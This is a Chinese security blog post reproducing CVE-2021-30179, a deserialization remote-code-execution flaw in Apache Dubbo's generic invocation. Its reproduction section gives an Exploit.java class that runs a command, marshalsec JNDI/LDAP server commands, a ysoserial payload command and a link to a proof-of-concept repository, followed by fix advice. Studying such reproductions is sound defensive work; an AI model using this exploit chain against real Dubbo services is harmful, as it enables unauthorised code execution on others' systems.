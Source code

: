 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/68JEDKPIhuOVWh6waTLZ1A)

**上方蓝色字体关注我们，一起学安全！**

**作者：****lz2y****@Timeline Sec  
**

**本文字数：1112**

**阅读时长：3～4min**

**声明：请勿用作违法用途，否则后果自负**

**0x01 简介**  

  

Apache Dubbo 是一个分布式框架，致力于提供高性能透明化的 RPC 远程服务调用方案，以及 SOA 服务治理方案。Apache Dubbo 在实际应用场景中主要负责解决分布式的相关需求。

**0x02 漏洞概述**  

  

**编号：CVE-2021-30179**  

Apache Dubbo 默认支持泛化引用由服务端 API 接口暴露的所有方法，这些调用由 GenericFilter 处理。GenericFilter 将根据客户端提供的接口名、方法名、方法参数类型列表，根据反射机制获取对应的方法，再根据客户端提供的反序列化方式将参数进行反序列化成 pojo 对象，反序列化的方式有以下选择：

*   true
    
*   raw.return
    
*   nativejava
    
*   bean
    
*   protobuf-json
    

我们可以通过控制反序列化的方式为 raw.return/true、nativejava、bean 来反序列化我们的参数从而实现反序列化，进而触发特定 Gadget 的，最终导致了远程命令执行漏洞

**0x03 影响版本**  

  

Apache Dubbo 2.7.0 to 2.7.9

Apache Dubbo 2.6.0 to 2.6.9

Apache Dubbo all 2.5.x versions (官方已不再提供支持)

**0x04 环境搭建**  

  

以 Apache Dubbo 2.7.9 为测试环境

1、下载 zookeeper  

```
https://archive.apache.org/dist/zookeeper/zookeeper-3.3.3/zookeeper-3.3.3.tar.gz
```

解压后的根目录下新建 data 和 logs 两个文件夹，修改 conf 目录下的 zoo_sample.cfg 为 zoo.cfg，覆盖原有的 dataDir 并添加 dataLogDir  

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVshhusNIoyFBQSOSe2yB6RB03gqLZtSP1R6CEBQia39WCIG4RIQYPbUUGM2sKceiaib8uVqWicloyHy88g/640?wx_fmt=png)

2、双击 bin 目录下的 zkServer.cmd，启动 zookeeper，默认监听 2181 端口  

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVshhusNIoyFBQSOSe2yB6RB05DxlWgACDV0Vd9gxBraMoNFKfUSWYxvmjItMHzkOVhpa4DibryVaMug/640?wx_fmt=png)

3、下载测试 Demo 及 POC：  

```
https://github.com/lz2y/DubboPOC
```

该测试 Demo 是我在基础的 Dubbo 测试项目上添加了需要使用的 Gadget 所需的依赖（该 CVE 使用的为 org.apache.xbean 以及 CC4）  

师傅们也可以参考 [https://mp.weixin.qq.com/s/9DkD2g09mmplZ7mow81sDw](https://mp.weixin.qq.com/s?__biz=MzA4NzUwMzc3NQ==&mid=2247485254&idx=1&sn=a5d3024742929a7ca91177452e49b831&scene=21#wechat_redirect) 安装官方提供的项目进行测试  

（项目里的 POC 是我在参考链接的基础上修改后的结果，后续会更新 Dubbo 的其他 CVE、GHSL 的 POC）  

4、启动 Provider  

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVshhusNIoyFBQSOSe2yB6RB0iaRqXSVib7wUaE7icLPBVBFZmFxpXQ6xyRAiaZNQhbIbCd6MxBEq6hibcIA/640?wx_fmt=png)

**0x05 漏洞复现**  

  

1、下载 marshalsec 并编译得到 jar 包  

```
git clone https://github.com/mbechler/marshalsec
mvn clean package –DskipTests
```

2、创建 Exploit.java 文件，通过 javac 得到 Exploit.class 文件

```
public class Exploit {
 
    static {
        System.err.println("Pwned");
        try {
            String cmds = "calc";
            Runtime.getRuntime().exec(cmds);
        } catch ( Exception e ) {
            e.printStackTrace();
        }
    }
}
```

3、在 Exploit.class 目录下开启 http 服务  

```
python -m http.server 8000
```

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVshhusNIoyFBQSOSe2yB6RB0X0OOkhLtgpgVfpMAV6kTLFjyUgj0f1GyZ6kePiamhR2iaadb8iatibgXTQ/640?wx_fmt=png)

4、使用 marshalsec 开启 JNDI 服务  

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8000/#Exploit" 8087
```

5、查看暴露的接口及其方法  

```
telnet Dubbo服务ip Dubbo服务端口
ls
cd 服务
ls
```

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVshhusNIoyFBQSOSe2yB6RB0lSo3qcAFqjOWw4S46JepZCntgiawwOm3jfdJjicAZicb5CNWe3rDBj7Bw/640?wx_fmt=png)

打开  

src\main\java\top\lz2y\vul\CVE202130179.java 修改上一步得到的接口名及其方法  

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVshhusNIoyFBQSOSe2yB6RB0ZIjBuSCoVVGfQGfPic2WHMa8wJJKhFfxWrbKicTICibonpfHJ26gDm9gA/640?wx_fmt=png)

6、替换 CVE-2021-30179.java 中的 POC1 的 ldap uri

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVshhusNIoyFBQSOSe2yB6RB0204OwYjicxObqCoZo4HjbtFrwulZuebXREVPia4ialoiaPKJk1R7PPtY1g/640?wx_fmt=png)

填写 Dubbo 服务的 ip 以及端口号  

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVshhusNIoyFBQSOSe2yB6RB0MjIgxH5HhcTYVMEFLpOTEicKScT9ghMDeOMp18zUv7lkbc9RHfZicibMw/640?wx_fmt=png)

7、运行即可发起 JNDI 注入执行打开计算器  

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVshhusNIoyFBQSOSe2yB6RB0EhQcBd0FfhiaHrTiac214icnbnoR47XIw9jia4icLwygCwjZpgxxh8O4fLw/640?wx_fmt=png)

POC2 同 POC1，只需修改 LDAP 服务地址即可使用  

POC3 为通过 nativejava 选项反序列化触发 sink 点，这里以 CC4 为例，利用 yso 生成 CC4 的序列化文件

```
java -jar ysoserial.jar CommonsCollections4 "calc" > 1.ser
```

修改 POC 中反序列化文件的路径

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVshhusNIoyFBQSOSe2yB6RB001yDBpXOoeBP4FASDyzsibmVBc4MolfCdZia6z6hPPuxCoXDpQoKtA8A/640?wx_fmt=png)

运行即执行 calc 弹出计算器

**0x06 修复方式**  

  

升级 Apache Dubbo 至最新版本；

设置 Apache Dubbo 相关端口仅对可信地址开放。

```
参考链接：
```

https://mp.weixin.qq.com/s/9DkD2g09mmplZ7mow81sDw

https://securitylab.github.com/advisories/GHSL-2021-034_043-apache-dubbo/  

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsiaASAShFz46a4AgLIIYWJQKpGAnMJxQ4dugNhW5W8ia0SwhReTlse0vygkJ209LibhNVd93fGib77pNQ/640?wx_fmt=png)

  

![](https://mmbiz.qpic.cn/mmbiz_jpg/VfLUYJEMVshAoU3O2dkDTzN0sqCMBceq8o0lxjLtkWHanicxqtoZPFuchn87MgA603GrkicrIhB2IKxjmQicb6KTQ/640?wx_fmt=jpeg)

**阅读原文看更多复现文章**

Timeline Sec 团队  

安全路上，与你并肩前行